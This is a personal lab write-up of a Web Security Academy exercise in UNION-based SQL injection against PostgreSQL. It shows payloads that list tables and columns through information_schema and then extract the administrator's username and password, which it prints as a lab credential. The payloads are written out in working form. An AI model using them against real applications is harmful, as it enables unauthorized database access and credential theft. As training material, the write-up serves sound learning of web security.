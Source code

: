 # Non-Oracle databases listing contents
#DATABASEENUM 
#UNION 
#WRITEUP 

Follow the [[Methodology UNION attacks]]

## 1. Number of columns of result set

![[Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on non-Oracle databases/images/columns.png]]
There are two columns on the result set.

## 2. Columns that can hold string data

Both columns can hold string data.

![[string.png]]

## 3. Exploitation

### List tables

Select the `TABLE_NAME` column from `information_schema.tables`

![[all tables.png]]

The payload

```SQL
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```

Then inspect the columns on the interesting tables.

### Listing columns of interesting tables

Inspect the tables for keywords like `password`

```SQL
SELECT COLUMN_NAME FROM information_schema.columns WHERE table_name = '$TABLE NAME$'
```
```SQL
' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = '$TABLE NAME$'--
```

## Enumerating all tables

I wrote a Python script to scrape the name of every table injecting the query to the `information_schema.tables` table on the page. Then I used those tables names to inject another query to look for interesting column names like `username` or `password`. Finally the script outputs the tables that contained columns with those keywords.

![[script.png]]

	Note: Another option would be to extract the tables names only and use Burp's Intruder to do the job and apply a filter for the same keywords.

The script is available [here](https://github.com/JoseDRamirezM/InfoSec/blob/main/Web%20Security%20Academy/SQL%20injection/Attacks/Enumerating%20the%20database/labs/SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/exploit.py)

![[interesting tables.png]]

Now look inspect the columns of the output tables for the `administrator` credentials. From here I'll go manual.

Using the following payload obtain the columns of the tables.

#SQLiPAYLOAD 
```SQL
' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 'users_ebehna'--
```
	Note that the name of the user's table and columns changes on each instance.

![[login table.png]]

Then extract the information from the database.

## Database type and version

![[db type.png]]

The database is `PostgreSQL 12.10` I did this mostly to extract both columns in one go.

Using the following payload, the `administrator` credentials are obtained.

#SQLiPAYLOAD 
```SQL
' UNION SELECT username_rbclpr||'~'||password_yxrmhn,NULL FROM users_ebehna--
```

![[Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on non-Oracle databases/images/admin creds.png]]

`administrator~azqo1iz26c2ivxoy99kl`

Now login as administrator and the lab is solved!